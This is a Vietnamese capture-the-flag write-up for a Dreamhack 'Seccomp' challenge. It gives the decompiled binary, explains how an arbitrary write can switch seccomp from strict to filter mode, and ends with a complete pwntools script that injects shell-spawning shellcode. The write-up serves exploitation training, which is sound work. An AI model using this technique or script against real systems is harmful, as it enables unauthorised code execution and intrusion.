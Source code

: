 # Seccomp
## Chal thử.
### 1. Source.
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+18h] [rbp-28h] BYREF
  int v4; // [rsp+1Ch] [rbp-24h]
  __int64 v5; // [rsp+20h] [rbp-20h] BYREF
  void *buf; // [rsp+28h] [rbp-18h]
  void *v7; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v4 = 0;
  initialize(argc, argv, envp);
  buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  while ( 1 )
  {
    while ( 1 )
    {
      puts("1. Read shellcode");
      puts("2. Execute shellcode");
      puts("3. Write address");
      printf("> ");
      __isoc99_scanf("%d", &v3);
      if ( v3 != 2 )
        break;
      v7 = buf;
      ((void (*)(void))buf)();
    }
    if ( v3 == 3 )
    {
      printf("addr: ");
      __isoc99_scanf("%ld", &v5);
      printf("value: ");
      __isoc99_scanf("%ld", v5);
    }
    else if ( v3 == 1 )
    {
      if ( v4 )
        exit(0);
      syscall_filter();
      printf("shellcode: ");
      read(0, buf, 0x400uLL);
      ++v4;
    }
  }
}
```
### 2. Hướng giải.
- Đầu tiên ta sẽ cần phải tìm hiểu đến 2 lớp bảo vệ của `seccomp` là `STRICT_MODE` và `FILTER_MODE `.
- *`STRICT_MODE:`*
    ![1701458496482](image/seccomp/1701458496482.png)
    - giới hạn  các quyền call vào chương trình, cụ thể là read, write, exit, sigreturn.

-*`FILTER_MODE:`*
    ![1701458550264](image/seccomp/1701458550264.png)
    - Mode này đơn giản hơn và ít đòi hỏi hơn.


- Tìm hiểu về 2 lớp bảo vệ trên thì ta cùng khai thác chương trình, nhìn vào chall trên ta thấy 3 `option` :
    + `option 1:` là nơi chúng ta ghi shell vào.
    + `option 2:` giúp ta `execve` hay thực thi shellcode.
    + `option 3:` giúp ta nhập và 1 địa chỉ và cho phép ta ghi vào đó 1 giá trị.
- Nhưng mà bạn ơi nhìn đi:
    -![1701458770957](image/seccomp/1701458770957.png)
    - NX đã bật rồi ta không thể nào ghi vào stack đc mà ta sẽ phải ghi vào 1 địa chỉ khác, và chương trình cũng đã tự động điều chỉnh cho ta 1 địa chỉ phù hợp rồi :)) .
- Check source C thì ta thấy đc cái này :
    ![1701458853109](image/seccomp/1701458853109.png)
    - 1 biến địa chỉ `mode` được khai báo dạng `STRICT` , nhưng mà ta ko nên xài `STRICT mode` mà hãy chuyển sang `FILTER mode` để dễ dàng khai thác hơn, để `shellcode` có thể thực hiện trơn tru ta có thể sử dụng `shellcraft.sh()` để đơn giản hóa `shellcode` và 
    ta sẽ sử dụng `option 3` để đưa `mode` về 1 `đối số` khác !=1 .
    - *`LƯU Ý:`* khi `mode` được khai báo kiểu này nó sẽ được truyền vào `1 đối số` là '1' cũng có thể '1' liên quan đến `STRICT` ta chỉ cần chuyển nó sang 1 'số khác' là được , tùy các bạn miến ko phải là '1' :Đ . Và ở `option 3` đã giúp chúng ta làm điều đó với thao tác nhập địa chỉ và thay đổi dữ liệu trong đó.
- Ta check địa chỉ biến `mode` để thay đổi dữ liệu: ![1701459660731](image/seccomp/1701459660731.png)
- Cơ bản thì source sẽ như sau: 
    - ![1701459695263](image/seccomp/1701459695263.png)
- Chạy thử script trên thì ta thu đc shell òi :Đ .
![1701459781137](image/seccomp/1701459781137.png)
## Script.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('seccomp', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 24290)
else:
        p = process(exe.path)

GDB()
mode = 0x602090
shellcode = asm(shellcraft.sh())
 
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ', str(mode))
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendafter(b'shellcode: ', shellcode)
 
p.sendlineafter(b'> ',b'2')

p.interactive()
```
